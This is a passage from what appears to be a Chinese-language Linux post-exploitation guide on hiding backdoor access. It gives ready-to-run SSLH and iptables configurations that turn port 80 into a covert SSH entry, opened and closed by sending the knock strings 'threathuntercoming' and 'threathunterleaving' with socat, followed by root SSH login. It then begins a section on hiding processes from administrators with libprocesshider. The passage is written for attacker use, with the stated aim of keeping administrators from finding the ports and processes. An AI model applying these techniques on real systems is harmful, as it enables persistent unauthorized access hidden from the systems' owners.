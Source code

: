 通过端口复用来达到隐藏端口的目的，在Linux下，如何实现端口复用呢？

第一种方式：通过SSLH在同一端口上共享SSH与HTTPS

~~~
 #安装SSLH
 sudo apt-get install sslh
 #配置SSLH
 编辑 SSLH 配置文件：
 sudo vi /etc/default/sslh
 1、找到下列行：Run=no  将其修改为：Run=yes
 2、修改以下行以允许 SSLH 在所有可用接口上侦听端口 443
 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
~~~

第二种方式：利用IPTables进行端口复用

~~~
# 端口复用链
iptables -t nat -N LETMEIN
# 端口复用规则
iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22
# 开启开关
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT
# 关闭开关
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT
# let's do it
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN
~~~

利用方式：

~~~
#开启复用
echo threathuntercoming | socat - tcp:192.168.28.128:80
#ssh使用80端口进行登录
ssh -p 80 root@192.168.28.128
#关闭复用
echo threathunterleaving | socat - tcp:192.168.28.128:80
~~~

![](https://gitee.com/eviden/img/raw/master/202406131418523.png)

 具体文章详见：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

### 0x07 进程隐藏

管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。

第一种方法：libprocesshider

github项目地址：https://github.com/gianlucaborello/libprocesshider
